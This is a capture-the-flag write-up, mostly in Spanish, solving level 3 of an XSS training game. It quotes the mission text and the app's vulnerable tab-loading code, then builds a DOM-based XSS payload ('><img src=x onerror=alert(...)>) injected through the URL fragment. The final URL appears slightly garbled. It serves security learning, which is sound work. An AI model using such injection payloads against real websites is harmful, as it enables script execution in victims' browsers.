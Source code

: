 #[3/6]  Level 3: That sinking feeling...

##Mission Description

As you've seen in the previous level, some common JS functions are execution sinks which means that they will cause the browser to execute any scripts that appear in their input. Sometimes this fact is hidden by higher-level APIs which use one of these functions under the hood. 

The application on this level is using one such hidden sink.

#Mission Objective

As before, inject a script to pop up a JavaScript alert() in the app. 

Since you can't enter your payload anywhere in the application, you will have to manually edit the address in the URL bar below.

#Write Up Iker

Al igual que en los dos anteriores niveles, tenemos que ejcutar una alerta en el navegador utilizando técnicas de XSS.

En este caso vamos a leer bien el código fuente que nos proporcionan para ver si existe alguna vulnerabilidad o campo donde podamos injectar código para que ejecute nuestra alerta

Nos fijamos en el siguiente trozo de código que nos da unapista de como se muestran las imagenes en las pestañas:

```javascript
function chooseTab(num) {
        // Dynamically load the appropriate image.
        var html = "Image " + parseInt(num) + "<br>";
        html += "<img src='/static/level3/cloud" + num + ".jpg' />";
        $('#tabContent').html(html);
```  

Después de ver el código podemos ver como realiza una concatenación entre la ruta donde se alojan las imagenes `/static/level3/cloud" + num + ".jpg` que podrían ser `Imagecloud1.jpg` `Imagecloud2.jpg` `Imagecloud3.jpg` por ejemplo

Podemos observar que ese campo es perfectamente injectable si lo modificamos de la siguiente manera:

```html
<img src='/static/level3/cloud'><img src=x onerror=alert('Rediooooo')>.jpg'/>
```

Sustituyendo el valor `num` por  `'><img src=x onerror=alert('Rediooooo')>`

De esta manera el código a injectar en la url queda de la siguiente manera:

```html
https://xss-game.appspot.com/level3/frame#3<img src='/static/level3/cloud'><img src=x onerror=alert('Rediooooo')>.jpg'/>
```

Haciendo esto conseguimos que salte una alerta en el navegador y pasamos al siguiente nivel :)
